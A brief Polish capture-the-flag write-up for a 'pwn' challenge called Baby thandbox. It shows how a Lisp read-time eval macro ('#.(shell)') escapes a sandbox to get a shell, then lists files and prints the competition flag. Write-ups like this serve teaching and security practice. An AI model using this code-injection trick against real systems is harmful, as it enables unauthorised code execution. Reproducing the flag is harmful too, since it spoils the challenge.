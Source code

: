 # Baby thandbox - pwn

Korzystając z [read-time eval macro](https://stackoverflow.com/a/14497188) można wyevalować jaki się chce kod LISP'a. Po wpisaniu "shell" dostajemy shella.

```shell=
;; Loading file /sandbox ...
> #.(shell)
ls
bin
etc
flag_144de66289ad4b9ffa8578cb862c7db7.txt
lib
lib64
root
sandbox
sbin
usr

cat flag_144de66289ad4b9ffa8578cb862c7db7.txt
ecsc23{LISP_is_a_speech_defect_in_which_s_is_pronounced_like_th_in_thick}
```